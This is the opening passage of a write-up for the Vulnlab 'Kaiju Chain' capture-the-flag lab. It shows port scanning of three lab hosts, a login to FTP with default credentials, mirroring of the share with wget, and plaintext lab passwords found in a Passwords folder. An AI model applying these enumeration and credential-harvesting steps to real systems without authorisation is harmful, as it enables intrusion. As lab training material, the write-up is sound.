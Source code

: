 ```yaml
---
title: "Vulnlab - Kaiju Chain [Hard]"
category: ctf-writeup
layout: post
---
```


> Through the writeup the IPs may change, this is due that I did the machine in a few tries so I turned off the instances.

We start with 3 targets in my case the targets were:

```
10.10.247.37
10.10.247.38
10.10.247.39
```

Scanning them:

```
$ rustscan -a $(sed --z 's/\n/,/g' target.txt)
Open 10.10.247.38:21
Open 10.10.247.38:22
Open 10.10.247.38:3389
Open 10.10.247.39:3389
Open 10.10.247.37:3389
```

We are able to log in with `ftp:ftp`, then we can list the files:

```
dr-xr-xr-x 1 ftp ftp               0 Dec 27 10:15 Configs
dr-xr-xr-x 1 ftp ftp               0 Dec 17 14:44 Licenses
dr-xr-xr-x 1 ftp ftp               0 Dec 27 10:15 Passwords
dr-xr-xr-x 1 ftp ftp               0 Dec 29 08:56 Software
dr-xr-xr-x 1 ftp ftp               0 Dec 27 10:15 Temp
```

We can download them all using `wget`

```
wget -m ftp://ftp:ftp@10.10.247.38
```

We find interesting files that contains credentials under the `Passwords` folder.

```
-r--r--r-- 1 ftp ftp              20 Jan 30 20:10 firewalls.txt
-r--r--r-- 1 ftp ftp               9 Jan 30 20:16 ftp.txt
-r--r--r-- 1 ftp ftp              32 Dec 29 08:53 local.txt
```

```
firewall:firexx
ftp:ftp
administrator:[Moved to KeePass]
```
